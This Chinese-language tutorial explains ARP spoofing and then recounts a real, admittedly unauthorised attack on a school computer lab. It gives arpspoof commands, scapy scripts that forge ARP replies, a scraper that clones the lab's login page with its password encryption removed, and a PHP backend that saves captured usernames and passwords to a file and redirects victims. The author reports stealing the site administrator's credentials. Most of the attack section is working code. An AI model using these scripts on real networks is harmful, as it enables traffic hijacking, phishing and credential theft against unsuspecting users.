

# ARP欺骗

---


## 一、ARP欺骗原理

1、ARP欺骗：

```tex
ARP（Address Resolution Protocol）是在计算机网络中用于将IP地址映射到MAC地址的协议。ARP欺骗是一种网络攻击，攻击者通过篡改ARP缓存中的条目，欺骗网络中的计算机，使其将数据发送到错误的MAC地址，从而使攻击者能够拦截、篡改或监听通信。
```

2、ARP攻击：

```tex
ARP缓存欺骗（ARP缓存投毒）：攻击者发送虚假的ARP响应，将自己的MAC地址与另一个IP地址相关联。这会导致目标计算机错误地将数据发送到攻击者的MAC地址，而不是正确的目标地址。

中间人攻击：攻击者发送虚假的ARP响应，将自己伪装成网络中的路由器或另一个合法设备。这使得所有流经攻击者的数据流都会经过攻击者的机器，使攻击者能够监视、篡改或拦截通信。

ARP回复（ARP Reply）：攻击者发送大量伪造的ARP回复，告诉网络中其他设备，目标设备的MAC地址已经改变。这会导致其他设备更新其ARP缓存，将攻击者的MAC地址错误地与目标IP地址关联。
```

3、ARP欺骗的危害：

```tex
ARP欺骗可用于执行各种恶意活动，包括中间人攻击、数据拦截、数据篡改等。防范ARP欺骗包括使用安全性更高的网络协议（如ARP防护）、网络监控和流量分析工具，以及实施网络级加密和认证措施。
```

## 二、实施ARP欺骗

#### 1、使用kali自带的工具arpspoof，攻击目标主机：

```bash
arpspoof -i [你的网络接口] -t [目标 IP] [网关 IP]
# eg: arpspoof -i eth0 -t 192.168.1.2 192.168.1.1
```

​	这样可以将目标主机发给网关的数据流量发到本机，但是网络不能通信，因为本机不能转发流量，因此要在本机开启IP流量转发。

```bash
sysctl -w net.ipv4.ip_forward=1
# 将ip_forword的值设置为1表示开启流量转发，设置为0则表示关闭流量转发
```

​	停止攻击

```bash
arpspoof -i [你的网络接口] -d -t [目标 IP] [网关 IP]
```

#### 2、使用python的scapy库发送ARP欺骗数据包：

​	python代码：

```python
from scapy.layers.l2 import ARP, Ether
from scapy.sendrecv import sendp
import time


def run():
    target_ip = ''
    target_mac = ''

    spoof_ip = ''
    spoof_mac = ''

    gateway_ip = ''
    gateway_mac = ''

 	# 发送给目标的ARP数据包
    packet_for_target = Ether(src=spoof_mac, dst=target_mac)/ARP(hwsrc=spoof_mac, psrc=gateway_ip, hwdst=target_mac, pdst=target_ip, op=2)
    sendp(packet_for_target)

    # 发送给网关的ARP数据包
    packet_for_gateway = Ether(src=spoof_mac, dst=gateway_mac)/ARP(hwsrc=spoof_mac, psrc=target_ip, hwdst=gateway_mac, pdst=gateway_ip, op=2)
    sendp(packet_for_gateway)

    time.sleep(0.5)


if __name__ == '__main__':
    while True:
        run()
        
```

## 三、实战案例

#### 1、实验环境

​	服务器：10.104.38.100 【4508实训室网站服务器，开放80端口，提供网站服务】


​	目标主机：10.104.38.99 【4508教师机】

​	攻击机：10.104.38.55 【kali学生机】

#### 2、实验背景

​	4508机房电脑连接提供课程实训环境的服务器，在使用实训环境的时候需要用户登录认证才能进行。网站采用HTTP协议而非HTTPS协议，这意味着可以实施中间人攻击。一般思路是采用中间人监听的方式，监听客户端发送给服务端的http报文，从中提取表单数据，但是通过分析网站代码，以及抓包验证得知，该网站对密码进行了RSA非对称加密，公钥生成并显示在前端，但是无法得到目标的私钥，所以无法解密监听到的密码信息。因此思路更改为：将攻击机伪造成服务器，并对客户机提供网站服务，而不将数据流量转发给服务器，使用HTML或PHP生成一个与服务器网站相似的钓鱼网站，诱骗用户输入用户名和密码，截获无加密的表单数据，窃取用户的用户名和密码。

#### 3、准备工作

​	a、测试攻击流程的可行性，在本地搭建实验环境：

```tex
*** 攻击机【Kali，运行py脚本 ip：192.168.1.140】
*** 目标主机 【windows server 2019 ip：192.168.1.141】
*** 服务器 【Ubuntu 部署nginx服务 ip：192.168.1.142】
Ubuntu模拟机房服务器，目标主机模拟教师机，攻击机模拟攻击者。
```

​	b、攻击流程：

​	目标主机访问服务器：


​	此时一切正常，我们来看目标主机192.168.1.141的arp表：


​	此时192.168.1.142的mac地址是00:0c:29:b4:65:b9，这时1.141可以正常访问1.142，没有异常。

接下来，我们首先将目标主机和服务器之间的数据切断。我们在攻击机kali上面编辑python攻击代码：

```python
from scapy.all import *
import time

spoof_ip = "192.168.1.140"
spoof_mac = "00:0c:29:f8:9c:62"

target_ip = "192.168.1.141"
target_mac = "00:0C:29:D3:B2:4E"

server_ip = "192.168.1.142"
server_mac = "00:0c:29:ac:a9:b3"

def run():
    ether = Ether(src=spoof_mac,dst=target_mac)
    arp = ARP(hwsrc=spoof_mac, psrc=server_ip, hwdst=target_mac, pdst=target_ip, op=2)
    package = ether/arp  # 构建ARP欺骗的数据包   
	while True:
    	sendp(package)
        time.sleep(1)
    
if __name__ == "__main__":
    run()
```

​	我们把参数设置对，在arp包中，源mac是spoof_mac，源ip是server_ip，目的mac和ip都为目标主机，然后将报文类型设置为2类，即响应报文。**（注意！在linux中，设备发送报文是需要管理员权限的，而代码中调用了scapy的发报文方法，因此要在命令行中使用管理员权限运行此攻击代码。）**接下来让我们运行代码，并抓包查看结果:




​	可以看到，抓到的了不少ARP的响应报文，这相当于主告诉目标主机，你要找的服务器就是我攻击机，你别再发广播包询问了。那么我们接下来看看目标主机的ARP表有没有变化呢？


​	如图，140是攻击者的ip，142是服务器的ip，在目标主机上，这两者的mac地址变成一样的了。此时目标主机再想访问服务器就会这样：


​	很显然，访问失败。这就达到我们第一阶段的目标了，切断了目标主机和服务器之间的连接，我们在攻击机上抓包看看为什么访问失败了。

​	如图，目标主机在与服务器建立连接的时候，由于根据mac地址找不到对应的ip，因此tcp三次握手失败。说到底，是因为00-0c-29-f8-9c-62这个mac地址它对应的应该是192.168.1.140这个ip地址，但是你浏览器发送的tcp请求中，把00-0c-29-f8-9c-62对应的ip地址设置为了142，所以我攻击机虽然收到了你发过来的数据包，但是由于ip地址不是攻击机，所以攻击机无法与目标主机建立tcp连接。一句话，攻击机是140，所以无法处理141发给142

的tcp连接。

​	所以虽然目标主机与服务器的连接被掐断了，但是它还是无法连接到攻击机。这个问题还困扰了我一阵子，我甚至想用scapy监听141发给142的tcp数据包，然后将其中的142改成140，这样攻击机就能够识别数据包了，但是tcp报文是有校验和的，如果篡改数据，校验和不相等，则数据包就会失效。

​	就当我百思不得其解的时候，我突然想到了，目标主机为什么知道服务器是服务器，不就是因为确定了服务器的mac和ip这两个地址一一对应的关系吗，而一个网段内之所以不允许有两个相同的ip就是因为，如果有两个相同的ip就会导致一个mac对应了两个ip，这样一一对应的关系就被破坏了。

​	但是，如果我将攻击机的ip改为服务器的ip，并主动告知网络，我的ip和mac的对应关系，这样，其他设备就会记住攻击机的mac和ip的对应关系，而忽视真正的服务器mac，我们来试一下：

​	首先在攻击机上开启apache2服务，服务器142运行的是nginx，而攻击机运行的apache，以此来区分，目标主机访问的到底是服务器还是攻击机：	

​	访问一下本机IP：


​	OK，攻击机的服务已经开起来了，接下来修改本机ip地址为服务器的地址：


​	然后激动人心的时刻到了，我们在目标主机上访问142，看看是会出现nginx，还是apache：


​	完美成功，成功劫持目标主机流量。

​	c、总结：

​	实验是成功的，这时，服务器已经被完全架空，不仅它无法和外界通信，外界访问它的流量也会被攻击机劫持。在虚拟环境中是这一套流程，在真实环境中也是这一套流程。


#### 4、钓鱼

​	在机房真实环境中，无非是将服务器换成10.104.38.100，而目标主机是10.104.38.99，而攻击机则可以是机房任意一台pc，这里我选择的是靠老师最近的10.104.38.55。由于是机房环境，具体arp攻击过程没有截图，且攻击流程与虚拟环境一致。所以在这一part，主要介绍钓鱼站点的搭建。

​	只要劫持了目标流量，使其访问攻击机提供的站点，那么剩下的就是如何诱骗用户在没有戒备的情况下输入用户名和密码，这就要求攻击机提供的站点和服务器提供的站点非常相似，如何使其非常相似呢，我的做法是，直接爬取服务器站点源码，这是python代码：
```python
import requests

url = "http://10.104.38.100/index.php/site/login"
resp = requsets.get(url)

file_path = "index.html"
with open(file_path, mode="w") as f:
    f.write(resp.text)
```

​	这样就爬取到了目标源码，接下来，将其中script的部分全删了，钓鱼网站嘛，长得像就行，不需要那些用户感知不到的功能，特别是对密码的加密，如果不删，前面的努力全等于白做。最后处理好的代码长这样：

```html

<meta charset="UTF-8">
<head>
<link href="login.css" rel="stylesheet">
<title>用户登录</title>
<style type="text/css">
    .panelLogin_box{
        position: relative;
        margin-bottom:30px;
    }
    .usernameerror{
        position: absolute;
        bottom:-24px;
        left: 0;
        right: 0;
    }
</style>
<script>
    function change(){
        const randomInt = Math.floor(Math.random() * (5 - 1 + 1)) + 1;
        const path = "img/captcha" + randomInt + ".png";
        document.getElementById('captchaimg').src=path;
    }
</script>

</head>
<body>

<div class="panelloggedin" >
    <div class="panel_logo" ></div>
    <div class="panelLogin">

        <form id="login-form" action="login.php" method="post" role="form">
        <div class="panelLogin_box"><label class="panelLogin_username" for="LoginForm[username]"></label>
            <div class="form-group field-loginform-username required">

<div class="cipher"><input type="text" id="loginform-username" class="form-control" name="LoginForm[username]"></div>
<div class="usernameerror"><p class="help-block help-block-error"></p></div>
</div></div>
        <div class="panelLogin_box"><label class="panelLogin_password" for="LoginForm[password]"></label>
            <div class="form-group field-loginform-password required">

<div class="cipher"><input type="password" id="loginform-password" class="form-control" name="LoginForm[password]"></div>
<div class="usernameerror"><p class="help-block help-block-error"></p></div>
</div></div>
        <div class="panelLogin_box">
            <label class="panelLogin_captchaimg" for="LoginForm[verifyCode]">
                
            </label>
            <div class="form-group field-loginform-verifycode">

<div class="cipher"><input type="text" id="loginform-verifycode" class="form-control" name="LoginForm[verifyCode]"></div>
<div class="usernameerror"><p class="help-block help-block-error"></p></div>
</div>        </div>
        <button type="submit" class="btn btn-success panelLogin_submit" name="login-button">登 录</button>
        </form>        <div class="login_other">
                    </div>
    </div>
</div>


</body>

</html>
```

​	那一段js代码是为了实现点击验证码图片就能切换图片的功能的。整个代码没有任何的校验机制，它做的事只是引导用户输入，然后向后端提交表单。后端代码长这样：

```php
<?php

$username = test_input($_POST["LoginForm"]["username"]);
$password = test_input($_POST["LoginForm"]["password"]);

$file_name = "pwd_dic.txt";
$data = "username: " . $username . "\t" . "password: " . $password . "\n";
if ($username != "" && $password != ""){
    file_put_contents($file_name, $data,FILE_APPEND);
}
header("Location: index.html");
exit();

function test_input($data):string{
    $data = trim($data);
    $data = stripslashes($data);
    $data = htmlspecialchars($data);
    return $data;
}
```

​	这段代码的功能同样简单，接收前端提交的表单，并以文件的形式保存到pwd_dic.txt文件中。函数test_input是为了对前端传入的字符做安全检验，防止代码注入，毕竟如果攻击者反被攻击，那也太糟糕了，在这个代码中，为了降低用户对被钓鱼的感知，后端接收到了前端数据之后，除了保存数据，还会重定向页面，一直将页面重定向回登录界面，迷惑用户，使其不知道发生了什么事。

​	如此，钓鱼站点搭建完成，只需要开启攻击机的apache服务，提前使用ARP欺骗顶替掉服务器，接下来就只剩下等待。

​	攻击自然是成功的，最后也如愿以偿的拿到了网站管理员的账户和密码，进入了网站的管理后台：


​	最后的最后，攻击完成之后，还需要回复目标主机和服务器的正常连接，否则就会引起用户的怀疑，导致攻击暴露：

```python
from scapy.all import *
import time
from scapy.layers.l2 import Ether, ARP

spoof_ip = "192.168.1.140"
spoof_mac = "00:0c:29:f8:9c:62"

target_ip = "192.168.1.141"
target_mac = "00:0C:29:D3:B2:4E"

server_ip = "192.168.1.142"
server_mac = "00:0c:29:ac:a9:b3"


def run():
    ether = Ether(src=spoof_mac, dst=target_mac)
    arp = ARP(hwsrc=server_mac, psrc=server_ip, hwdst=target_mac, pdst=target_ip, op=2)
    package = ether / arp  # 构建ARP欺骗的数据包
    while True:
        sendp(package)
        time.sleep(1)


if __name__ == "__main__":
    run()

```

​	至此，一次完美的钓鱼攻击，就结束了。

#### 5、总结

​	这次实战与其说是一次ARP欺骗攻击，不如说是一次社会工程学攻击，因为实际的payload还是后面的钓鱼部分，ARP欺骗只不过是为后面的钓鱼攻击建立有利环境。这种社会工程学攻击还是很难防范的，毕竟没人天天上个网还要仔仔细细的分辨，页面是真的还是假的，而黑客的攻击往往是这样的，以有心算无心。

**最后，严肃声明！本次攻击实验虽然未得到老师的授权（毕竟钓鱼攻击，提前告知就没有意义了），但是并未造成任何的经济损失和系统故障，且攻击环境为机房环境，并未涉及机密或敏感内容。如果本文的阅读者用笔者提供的方法做任何违法法律法规的事，其行为与笔者无关！请遵守《网络安全法》的相关规定，做守法市民！**

